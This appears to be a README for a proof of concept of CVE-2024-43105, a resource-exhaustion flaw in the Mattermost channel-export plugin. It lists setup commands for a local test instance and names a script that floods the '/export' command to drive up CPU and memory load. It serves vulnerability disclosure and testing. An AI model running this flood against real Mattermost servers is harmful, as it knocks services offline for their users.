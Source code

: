 # CVE-2024-43105

| Weakness Enumeration |
| -------------------- |
| CWE-400              |

## Impact

Excessive Resource Consumption (CPU load, memory)

## Exploitation

Execute `/export` multiple times.

```bash
docker compose up # start mattermost instance (for testing)

firefox http://localhost:8065 # create account && create organization

firefox http://localhost:8065/admin_console/environment/developer # enable testing commands && enable developer mode

git clone https://github.com/mattermost/mattermost-plugin-channel-export # clone the plugin
cd mattermost-plugin-channel-export
git checkout b49fb0ea03402f58f42105548d8fb8e86e06f0c0

export MM_ADMIN_TOKEN='authtoken of self'
export MM_SERVICESETTINGS_SITEURL=http://localhost:8065

make deploy # deploy the plugin

cd ..

export MM_CHANNEL_ID='channel-id of town-square'
export MM_USER_ID='user-id of self'
export MM_TEAM_ID='team-id of team'

./scripts/prepare-instance.ts # create some posts
```

![prepared instance](./assets/prepared-instance.png)

```bash
./scripts/spam-export.ts # start spamming `/export`
```

![btop after running exploit](./assets/btop.png)
